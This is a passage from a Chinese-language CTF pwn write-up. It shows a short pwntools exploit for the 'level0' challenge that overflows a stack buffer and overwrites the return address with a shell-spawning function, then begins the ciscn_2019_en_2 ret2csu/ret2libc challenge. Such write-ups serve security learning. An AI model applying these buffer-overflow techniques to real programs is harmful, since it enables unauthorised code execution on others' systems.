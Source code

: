 同时存在一个可以直接getshell的函数`callsystem()`

直接构造payload覆写返回地址到`callsystem()`函数即可getshell

exp如下：

```
from pwn import *

payload = b'A'*0x80 + p64(0xdeadbeef) + p64(0x400596)

p = process('level0')
p.recv()
p.sendline(payload)
p.interactive() 
```

![image.png](img/04fca617128a672d66aad02f5a403b62.png)

# 0x009.ciscn_2019_en_2 - ret2csu + ret2libc

惯例的`checksec`，发现只开了栈不可执行保护

![image.png](img/7e4909085a27c33794f97349467dcae2.png)

拖入IDA进行分析~~感觉这题好像在哪个地方做过的样子~~（~~ciscn_2019_c_1~~）
